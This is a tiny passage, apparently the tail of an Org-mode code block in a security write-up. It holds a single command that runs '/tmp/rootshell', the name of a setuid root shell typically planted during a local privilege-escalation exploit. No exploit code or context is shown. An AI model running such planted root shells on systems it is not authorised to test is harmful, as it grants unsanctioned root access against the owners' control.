/tmp/rootshell
#+end_src
